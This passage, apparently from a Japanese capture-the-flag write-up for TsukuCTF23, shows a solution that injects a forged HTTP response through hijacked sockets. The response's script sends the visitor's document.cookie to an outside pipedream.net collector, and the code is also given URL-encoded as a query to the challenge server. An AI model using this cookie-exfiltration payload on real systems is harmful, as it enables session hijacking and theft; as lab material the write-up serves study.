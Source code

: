 ```bash
Server: Tsukushi/2.94
Content-Length: 178
Content-Type: text/html
Connection: Closed


<!DOCTYPE html>
<html lang="en">
    <head></head>
    <body>
    <script>location.href='https://en9i5fcxybxwa.x.pipedream.net/?s='+document.cookie</script>
    </body>
</html>
''')
    except Exception as e:
        pass

```
これをURLクエリに設定すると以下になる。  
```
http://118.27.109.12:31416/?code=%0D%0Aimport+socket%0D%0Afor+fd+in+range%28100%29%3A%0D%0A++++try%3A%0D%0A++++++++sock+%3D+socket.fromfd%28fd%2C+socket.AF_INET%2C+socket.SOCK_STREAM%29%0D%0A++++++++sock.sendall%28b%27%27%27HTTP%2F1.1+200+OK%0D%0AServer%3A+Tsukushi%2F2.94%0D%0AContent-Length%3A+178%0D%0AContent-Type%3A+text%2Fhtml%0D%0AConnection%3A+Closed%0D%0A%0D%0A%0D%0A%3C%21DOCTYPE+html%3E%0D%0A%3Chtml+lang%3D%22en%22%3E%0D%0A++++%3Chead%3E%3C%2Fhead%3E%0D%0A++++%3Cbody%3E%0D%0A++++%3Cscript%3Elocation.href%3D%27https%3A%2F%2Fen9i5fcxybxwa.x.pipedream.net%2F%3Fs%3D%27%2Bdocument.cookie%3C%2Fscript%3E%0D%0A++++%3C%2Fbody%3E%0D%0A%3C%2Fhtml%3E%0D%0A%27%27%27%29%0D%0A++++except+Exception+as+e%3A%0D%0A++++++++pass%0D%0A
```
crawlerに投げると以下のようなリクエストが届く。  
![flag.png](images/flag.png)  
flagが得られた。  

## TsukuCTF23{175_4_73rr1bl3_4774ck_70_1n73rrup7_h77p}
